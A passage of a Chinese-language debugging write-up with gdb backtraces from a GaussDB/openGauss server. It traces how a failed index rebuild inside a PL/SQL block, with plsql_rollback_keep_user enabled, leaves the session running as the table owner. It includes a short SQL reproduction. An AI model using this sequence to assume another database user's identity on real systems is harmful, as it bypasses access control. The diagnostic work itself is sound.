#23 0x000055e1a1fb927e in sqlcmd_standard_process_utility (parse_tree=0x7ff8466a8dc0, query_string=0x7ff84ab16050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, is_top_level=true, dest=0x7ff84ab16370, sent_to_remote=<optimized out>, completion_tag=0x7ff853baa260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:7283
#24 0x00007ff9cebd6759 in gsaudit_ProcessUtility_hook (parsetree=0x7ff8466a8dc0, queryString=0x7ff84ab16050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, isTopLevel=<optimized out>, dest=0x7ff84ab16370, sentToRemote=<optimized out>, completionTag=0x7ff853baa260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/security_plugin/security_policy_plugin.cpp:856
#25 0x000055e1a2529f52 in audit_process_utility (parsetree=0x7ff8466a8dc0, query_string=0x7ff84ab16050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=<optimized out>, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff853baa260 "",
is_ctas=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/audit/security_auditfuncs.cpp:1512
#26 0x000055e1a1fc571d in sqlcmd_process_utility (parse_tree=0x7ff8466a8dc0, query_string=0x7ff84ab16050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff853baa260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:1974
#27 0x000055e1a1fa683f in PortalRunUtility (portal=0x7ff795e02050, utilityStmt=0x7ff8466a8dc0, isTopLevel=true, dest=0x7ff84ab16370, completionTag=0x7ff853baa260 "") at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:2140
#28 0x000055e1a1fa80be in PortalRunMulti (portal=0x7ff795e02050, isTopLevel=true, dest=0x7ff84ab16370, altdest=0x7ff84ab16370, completionTag=0x7ff853baa260 "", snapshot=0x0, bii_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:2326
#29 0x000055e1a1fac2dc in PortalRun (portal=0x7ff795e02050, count=9223372036854775807, isTopLevel=true, dest=0x7ff84ab16370, altdest=0x7ff84ab16370, completionTag=0x7ff853baa260 "", snapshot=0x0, bii_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:1501
#30 0x000055e1a1f92276 in exec_simple_query (query_string=<optimized out>, msg=0x7ff853baa530, messageType=QUERY_MESSAGE) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:3513
#31 0x000055e1a1f9ee38 in gs_process_command (firstchar=<optimized out>, input_message=0x7ff853baa530, send_ready_for_query=0x7ff853baa526) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:11743
#32 0x000055e1a1fa49c0 in PostgresMain (argc=<optimized out>, argv=0x7ff84adf5b20, dbname=<optimized out>, username=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:11313
#33 0x000055e1a1f282df in backend_run (port=0x7ff853baa890) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:12482
#34 0x000055e1a1f671b0 in gauss_db_worker_thread_main<(knl_thread_role)2> (arg=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:19086
#35 0x000055e1a1f2839a in internal_thread_func (args=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:20196
#36 0x00007ff9cefa2f1b in ?? () from /usr/lib64/libpthread.so.0
#37 0x00007ff9ceeda320 in clone () from /usr/lib64/libc.so.6
(gdb) f 1
#1 0x000055e1a0a50b9f in build_index (heap_relation=0x7ff84785d050, heap_partition=0x0, index_relation=0x7ff84785c290, index_partition=0x0, index_info=0x7ff846490580, is_primary=false, isreindex=true, partition_type=INDEX_CREATE_NONE_PARTITION, parallel=true, is_trunc_gtt=false, snapshot=0x0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp:3861
3861 /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp: No such file or directory.
(gdb) info locals
indextuples = <optimized out>
heaptuples = <optimized out>
save_userid = 142993
current_user = 142993
save_sec_context = 0
save_nestlevel = <optimized out>
heap_part_rel = 0x0
index_part_rel = 0x0
target_heap_relation = 0x7ff84785d050
target_index_relation = 0x7ff84785c290
hasbucket = false
__func__ = "build_index"
stats = <optimized out>
dummyStats = {heap_tuples = 0, index_tuples = 0, all_part_tuples = 0x0}
need_check_xmin = <optimized out>
cudesc_idx_oid = <optimized out>
(gdb) f 2
#2 0x000055e1a0a5f5e5 in reindex_index (index_id=143007, index_part_id=0, skip_constraint_checks=false, mem_info=0x7ff8465704dc, db_wide=false, base_desc=0x0, is_trunc_gtt=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp:7233
7233 in /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp
(gdb) info locals
expect_am_type = 0
save_exception_stack = 0x7ff853ba5850
save_context_stack = 0x7ff853ba5040
local_sigjmp_buf = {{__jmpbuf = {140704533338192, -7227871732403450449, -161736, 143007, 140704308725024, 143007, -7227871732451684945, -3494064559584883281}, __mask_was_saved = 0, __saved_mask = {__val = {0, 1179670597, 0, 140704328565392, 94427633661113, 140704533322176, 140704533322456, 143007, 140704308724928, 140704328565392, 0, 143007, 140704308725024, 140704533322240, 94427560929079, 140704533322304}}}}
tryCounter = 0
oldTryCounter = 0x7ff853ba5754
irel = 0x7ff84785c290
heap_relation = 0x7ff84785d050
heap_id = 143004
save_userid = 142997
current_user = 142997
save_sec_context = 0
save_nestlevel = 3
index_lock_mode = 8
heap_lock_mode = <optimized out>
index_info = 0x7ff846490580
skipped_constraint = false
turbo_level = <optimized out>
lpi_parallel_method = <optimized out>
__func__ = "reindex_index"
(gdb)
线程 27是当前会话，reindex_index 一开始的save_userid 是0 ，然后 save_userid = 142997 current_user = 142997
接着走到 build_index ，开始的save_userid 是0，调用 set_userid_and_sec_context ，把当前用户改成了142993
在openGauss 中有相同的代码，不过函数名称有区别,SetUserIdAndSecContext会修改当前线程的CurrentUserId为relowner
\openGauss-server\src\common\backend\catalog\index.cpp:3684
GetUserIdAndSecContext(&save_userid, &save_sec_context);
SetUserIdAndSecContext(targetHeapRelation->rd_rel->relowner, save_sec_context | SECURITY_RESTRICTED_OPERATION);
void GetUserIdAndSecContext(Oid* userid, int* sec_context)
{
*userid = u_sess->misc_cxt.CurrentUserId;
*sec_context = u_sess->misc_cxt.SecurityRestrictionContext;
}
void SetUserIdAndSecContext(Oid userid, int sec_context)
{
u_sess->misc_cxt.CurrentUserId = userid;
u_sess->misc_cxt.SecurityRestrictionContext = sec_context;
}
也就是说，跨用户build_index时，切换会话中的当前用户是必然的，并且如果正常执行完成，用户也会切换回去
\openGauss-server\src\common\backend\catalog\index.cpp:5735
SetUserIdAndSecContext(save_userid, save_sec_context);
下面是gaussdb正常不报错的堆栈 ，143030 是切走，143034是还原
Thread 28 "TPLworker" hit Breakpoint 2, 0x000055e1a0a50a20 in build_index (heap_relation=<optimized out>, heap_partition=<optimized out>, index_relation=<optimized out>, index_partition=<optimized out>, index_info=<optimized out>, is_primary=<optimized out>, isreindex=true, partition_type=INDEX_CREATE_NONE_PARTITION, parallel=true, is_trunc_gtt=false, snapshot=0x0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp:5779
5779 /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp: No such file or directory.
(gdb) c
Continuing.
[New LWP 93822]
Thread 28 "TPLworker" hit Breakpoint 4, set_userid_and_sec_context (userid=143030, sec_context=2) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp:738
738 /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp: No such file or directory.
(gdb) c
Continuing.
[New LWP 93824]
[LWP 93821 exited]
Thread 28 "TPLworker" hit Breakpoint 4, set_userid_and_sec_context (userid=143030, sec_context=2) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp:738
738 in /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp
(gdb) c
Continuing.
[New LWP 93826]
Thread 28 "TPLworker" hit Breakpoint 4, set_userid_and_sec_context (userid=143034, sec_context=0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp:738
738 in /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp
(gdb) bt
#0 set_userid_and_sec_context (userid=143034, sec_context=0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp:738
#1 0x000055e1a0a5f6cf in reindex_index (index_id=143044, index_part_id=0, skip_constraint_checks=false, mem_info=0x7ff84746ecdc, db_wide=false, base_desc=0x0, is_trunc_gtt=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp:7385
#2 0x000055e1a1c2c4a3 in sqlcmd_reindex_index (stmt=0x7ff84746ecc0, indexRelation=<optimized out>, partition_name=<optimized out>, mem_info=0x7ff84746ecdc, concurrent=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/commands/indexcmds.cpp:4298
#3 0x000055e1a1fb94aa in sqlcmd_reindex_command (is_top_level=<optimized out>, stmt=0x7ff84746ecc0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:3230
#4 sqlcmd_standard_process_utility (parse_tree=0x7ff84746ecc0, query_string=0x7ff8459aa648 "alter index user_admin.i_t5 rebuild", params=0x0, is_top_level=<optimized out>, dest=0x7ff9ca89f020, sent_to_remote=<optimized out>, completion_tag=0x7ff8523950d0 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:9366
#5 0x00007ff9cebd6759 in gsaudit_ProcessUtility_hook (parsetree=0x7ff84746ecc0, queryString=0x7ff8459aa648 "alter index user_admin.i_t5 rebuild", params=0x0, isTopLevel=<optimized out>, dest=0x7ff9ca89f020, sentToRemote=<optimized out>, completionTag=0x7ff8523950d0 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/security_plugin/security_policy_plugin.cpp:856
#6 0x000055e1a2529f52 in audit_process_utility (parsetree=0x7ff84746ecc0, query_string=0x7ff8459aa648 "alter index user_admin.i_t5 rebuild", params=<optimized out>, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff8523950d0 "", is_ctas=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/audit/security_auditfuncs.cpp:1512
#7 0x000055e1a1fc571d in sqlcmd_process_utility (parse_tree=0x7ff84746ecc0, query_string=0x7ff8459aa648 "alter index user_admin.i_t5 rebuild", params=0x0, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff8523950d0 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:1974
#8 0x000055e1a2159bbc in spi_execute_plan0 (plan=0x7ff84746e850, param_list=0x0, snapshot=0x0, crosscheck_snapshot=0x0, read_only=false, fire_triggers=true, tcount=0, from_lock=false, dfx_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/spi/spi.cpp:2243
#9 0x000055e1a215aa53 in spi_execute_plan (plan=0x7ff84746e850, param_list=0x0, snapshot=0x0, crosscheck_snapshot=0x0, read_only=false, fire_triggers=true, tcount=0, from_lock=false, dfx_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/spi/spi.cpp:2535
#10 0x000055e1a215c07a in SPI_execute_plan_with_paramlist (plan=0x7ff84746e850, params=0x0, read_only=<optimized out>, tcount=0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/spi/spi.cpp:502
#11 0x000055e1a161af22 in gsplsql_exec_stmt_execsql (estate=0x7ff846aedc10, stmt=0x7ff8474c1900, dfx_state=0x7ff8475a82c0, is_open_satetement=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_sql.cpp:972
#12 0x000055e1a1602144 in gsplsql_exec_stmt (estate=0x7ff846aedc10, stmt=0x7ff8474c1900, dfx_state=0x7ff8475a82c0) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:712
#13 0x000055e1a1602682 in gsplsql_exec_stmts (estate=0x7ff846aedc10, stmts=0x7ff8474c1568, dfx_state=0x7ff846aef530) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:856
#14 0x000055e1a1600ec4 in gsplsql_exec_stmt_block (estate=0x7ff846aedc10, block=0x7ff8474c2618, dfx_state=0x7ff846aef530) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:295
#15 0x000055e1a1602452 in gsplsql_exec_stmt (estate=0x7ff846aedc10, stmt=0x7ff8474c2618, dfx_state=0x7ff846aef530) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:648
#16 0x000055e1a1602682 in gsplsql_exec_stmts (estate=0x7ff846aedc10, stmts=0x7ff8474c0708, dfx_state=0x7ff846aee0f0) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:856
#17 0x000055e1a1601963 in gsplsql_exec_stmt_block (estate=0x7ff846aedc10, block=0x7ff8474c28b0, dfx_state=0x7ff846aee0f0) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:431
#18 0x000055e1a37daec5 in gsplsql_exec_function (func=0x7ff84517a170, fcinfo=0x7ff852396230, dynexec_anonymous_block=false, func_runtime_state=0x0, isDstoreAutonomous=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/plpgsql/src/pl_exec.cpp:698
#19 0x000055e1a37ecbea in plpgsql_inline_handler (fcinfo=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/plpgsql/src/pl_handler.cpp:1124
#20 0x000055e1a142d9c1 in OidFunctionCall2Coll (function_id=<optimized out>, collation=0, arg1=140704324434000, arg2=0, is_null=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/fmgr/fmgr.cpp:2355
#21 0x000055e1a1bdfb39 in sqlcmd_execute_do_stmt (stmt=0x7ff845ba8dc0, atomic=<optimized out>, is_pkg_anonymous_block=249) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/commands/functioncmds.cpp:4242
#22 0x000055e1a1fb927e in sqlcmd_standard_process_utility (parse_tree=0x7ff845ba8dc0, query_string=0x7ff845ba9bc0 "begin\nalter index user_admin.i_t5 unusable;\n--insert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, is_top_level=true, dest=0x7ff845ba9ee0, sent_to_remote=<optimized out>, completion_tag=0x7ff85239a260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:7283
#23 0x00007ff9cebd6759 in gsaudit_ProcessUtility_hook (parsetree=0x7ff845ba8dc0, queryString=0x7ff845ba9bc0 "begin\nalter index user_admin.i_t5 unusable;\n--insert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, isTopLevel=<optimized out>, dest=0x7ff845ba9ee0, sentToRemote=<optimized out>, completionTag=0x7ff85239a260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/security_plugin/security_policy_plugin.cpp:856
#24 0x000055e1a2529f52 in audit_process_utility (parsetree=0x7ff845ba8dc0, query_string=0x7ff845ba9bc0 "begin\nalter index user_admin.i_t5 unusable;\n--insert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=<optimized out>, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff85239a260 "", is_ctas=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/audit/security_auditfuncs.cpp:1512
#25 0x000055e1a1fc571d in sqlcmd_process_utility (parse_tree=0x7ff845ba8dc0, query_string=0x7ff845ba9bc0 "begin\nalter index user_admin.i_t5 unusable;\n--insert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, is_top_level=<optimized out>, dest=<optimized out>, sent_to_remote=<optimized out>, completion_tag=0x7ff85239a260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:1974
#26 0x000055e1a1fa683f in PortalRunUtility (portal=0x7ff845ce0050, utilityStmt=0x7ff845ba8dc0, isTopLevel=true, dest=0x7ff845ba9ee0, completionTag=0x7ff85239a260 "") at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:2140
#27 0x000055e1a1fa80be in PortalRunMulti (portal=0x7ff845ce0050, isTopLevel=true, dest=0x7ff845ba9ee0, altdest=0x7ff845ba9ee0, completionTag=0x7ff85239a260 "", snapshot=0x0, bii_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:2326
#28 0x000055e1a1fac2dc in PortalRun (portal=0x7ff845ce0050, count=9223372036854775807, isTopLevel=true, dest=0x7ff845ba9ee0, altdest=0x7ff845ba9ee0, completionTag=0x7ff85239a260 "", snapshot=0x0, bii_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/pquery.cpp:1501
#29 0x000055e1a1f92276 in exec_simple_query (query_string=<optimized out>, msg=0x7ff85239a530, messageType=QUERY_MESSAGE) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:3513
#30 0x000055e1a1f9ee38 in gs_process_command (firstchar=<optimized out>, input_message=0x7ff85239a530, send_ready_for_query=0x7ff85239a526) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:11743
#31 0x000055e1a1fa49c0 in PostgresMain (argc=<optimized out>, argv=0x7ff848765b20, dbname=<optimized out>, username=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/postgres.cpp:11313
#32 0x000055e1a1f282df in backend_run (port=0x7ff85239a890) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:12482
#33 0x000055e1a1f671b0 in gauss_db_worker_thread_main<(knl_thread_role)2> (arg=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:19086
#34 0x000055e1a1f2839a in internal_thread_func (args=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/postmaster/postmaster.cpp:20196
#35 0x00007ff9cefa2f1b in ?? () from /usr/lib64/libpthread.so.0
#36 0x00007ff9ceeda320 in clone () from /usr/lib64/libc.so.6
调用链条是 reindex_index 调用 build_index ，在 build_index中把用户切走，build_index执行完回到reindex_index还原用户 。
也就是说，问题在于build_index如果当前用户切走，报错了，没有回到reindex_index里还原用户，就只能依赖错误处理中的自动rollback将用户进行还原，但此时由于开启了 plsql_rollback_keep_user ,即在plsql中的rollback要保持用户，因此出现了此问题
下面是没有开启plsql_rollback_keep_user时，报错会还原当前用户的堆栈
Thread 25 "TPLworker" hit Breakpoint 3, 0x000055e1a0a5f230 in reindex_index (index_id=<optimized out>, index_part_id=<optimized out>, skip_constraint_checks=<optimized out>, mem_info=<optimized out>, db_wide=<optimized out>, base_desc=<optimized out>, is_trunc_gtt=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp:9833
9833 /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp: No such file or directory.
(gdb) c
Continuing.
[New LWP 95015]
Thread 25 "TPLworker" hit Breakpoint 4, set_userid_and_sec_context (userid=143046, sec_context=2) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp:738
738 /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp: No such file or directory.
(gdb) c
Continuing.
Thread 25 "TPLworker" hit Breakpoint 2, 0x000055e1a0a50a20 in build_index (heap_relation=<optimized out>, heap_partition=<optimized out>, index_relation=<optimized out>, index_partition=<optimized out>, index_info=<optimized out>, is_primary=<optimized out>, isreindex=true, partition_type=INDEX_CREATE_NONE_PARTITION, parallel=true, is_trunc_gtt=false, snapshot=0x0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp:5779
5779 /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/catalog/index.cpp: No such file or directory.
(gdb) c
Continuing.
[New LWP 95018]
Thread 25 "TPLworker" hit Breakpoint 4, set_userid_and_sec_context (userid=143046, sec_context=2) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp:738
738 /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp: No such file or directory.
(gdb) c
Continuing.
Thread 25 "TPLworker" hit Breakpoint 1, errstart (elevel=20, filename=0x55e1a5708725 "tuplesort.cpp", lineno=4284, funcname=0x55e1a5709840 <tuplesort_comparetup_index_btree(SortTuple const*, SortTuple const*, Tuplesortstate*)::__func__> "tuplesort_comparetup_index_btree", domain=0x55e1a536a004 "plpgsql-9.2") at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/error/elog.cpp:238
238 /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/error/elog.cpp: No such file or directory.
(gdb) c
Continuing.
[LWP 95015 exited]
Thread 25 "TPLworker" hit Breakpoint 4, set_userid_and_sec_context (userid=143050, sec_context=0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp:738
738 /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp: No such file or directory.
(gdb) bt
#0 set_userid_and_sec_context (userid=143050, sec_context=0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/init/miscinit.cpp:738
#1 0x000055e1a2e6a696 in xact_event_action_abort_subtrans (stp_rollback=true) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp:4980
#2 0x000055e1a2e6ab47 in xact_finish_subtrans (in_stp=true) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/storage/transaction/trans_mgr/storage_transaction_manager.cpp:4359
#3 0x000055e1a216328e in SPI_savepoint_rollbackAndRelease (sp_name=0x0, sub_xid=0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/spi/spi_savepoint_oper.cpp:71
#4 0x000055e1a215aaf8 in spi_execute_plan (plan=0x7ff846d4f450, param_list=0x0, snapshot=0x0, crosscheck_snapshot=0x0, read_only=false, fire_triggers=true, tcount=0, from_lock=false, dfx_state=0x0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/spi/spi.cpp:2515
#5 0x000055e1a215c07a in SPI_execute_plan_with_paramlist (plan=0x7ff846d4f450, params=0x0, read_only=<optimized out>, tcount=0) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/spi/spi.cpp:502
#6 0x000055e1a161af22 in gsplsql_exec_stmt_execsql (estate=0x7ff846c4e820, stmt=0x7ff849b09dc0, dfx_state=0x7ff847b09550, is_open_satetement=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_sql.cpp:972
#7 0x000055e1a1602144 in gsplsql_exec_stmt (estate=0x7ff846c4e820, stmt=0x7ff849b09dc0, dfx_state=0x7ff847b09550) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:712
#8 0x000055e1a1602682 in gsplsql_exec_stmts (estate=0x7ff846c4e820, stmts=0x7ff849b09568, dfx_state=0x7ff846c4f120) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:856
#9 0x000055e1a1600ec4 in gsplsql_exec_stmt_block (estate=0x7ff846c4e820, block=0x7ff849b0aad8, dfx_state=0x7ff846c4f120) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:295
#10 0x000055e1a1602452 in gsplsql_exec_stmt (estate=0x7ff846c4e820, stmt=0x7ff849b0aad8, dfx_state=0x7ff846c4f120) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:648
#11 0x000055e1a1602682 in gsplsql_exec_stmts (estate=0x7ff846c4e820, stmts=0x7ff849b08708, dfx_state=0x7ff846c4ed00) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:856
#12 0x000055e1a1602fb0 in gsplsql_exec_stmts_save_cursor (estate=0x7ff846c4e820, stmts=0x7ff849b08708, dfx_state=0x7ff846c4ed00) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_cursor.cpp:66
#13 0x000055e1a1601b36 in gsplsql_exec_stmt_block (estate=0x7ff846c4e820, block=0x7ff849b0ae10, dfx_state=0x7ff846c4ed00) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/pl/plsql/pl_exec/pl_exec_stmt_block.cpp:428
#14 0x000055e1a37daec5 in gsplsql_exec_function (func=0x7ff849cd0170, fcinfo=0x7ff854fb6230, dynexec_anonymous_block=false, func_runtime_state=0x0, isDstoreAutonomous=false) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/plpgsql/src/pl_exec.cpp:698
#15 0x000055e1a37ecbea in plpgsql_inline_handler (fcinfo=<optimized out>) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/pl/plpgsql/src/pl_handler.cpp:1124
#16 0x000055e1a142d9c1 in OidFunctionCall2Coll (function_id=<optimized out>, collation=0, arg1=140704316962896, arg2=0, is_null=0x0) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/share/fmgr/fmgr.cpp:2355
#17 0x000055e1a1bdfb39 in sqlcmd_execute_do_stmt (stmt=0x7ff846d28dc0, atomic=<optimized out>, is_pkg_anonymous_block=249) at /usr1/GaussDBKernel/server/opengauss/src/compatibility/sql_adaptor/commands/functioncmds.cpp:4242
#18 0x000055e1a1fb927e in sqlcmd_standard_process_utility (parse_tree=0x7ff846d28dc0, query_string=0x7ff846e66050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, is_top_level=true, dest=0x7ff846e66370, sent_to_remote=<optimized out>, completion_tag=0x7ff854fba260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/auxiliary/proc/tcop/utility.cpp:7283
#19 0x00007ff9cebd6759 in gsaudit_ProcessUtility_hook (parsetree=0x7ff846d28dc0, queryString=0x7ff846e66050 "begin\nalter index user_admin.i_t5 unusable;\ninsert into user_admin.t5 values (1);\nalter index user_admin.i_t5 rebuild; --这里会报错，隐式rollback\nexception when others then\nraise notice '%',sqlerrm;\nraise notice '%',current_user;\nend;", params=0x0, isTopLevel=<optimized out>, dest=0x7ff846e66370, sentToRemote=<optimized out>, completionTag=0x7ff854fba260 "", isCTAS=false) at /usr1/GaussDBKernel/server/opengauss/src/gausskernel/security/security_plugin/security_policy_plugin.cpp:856
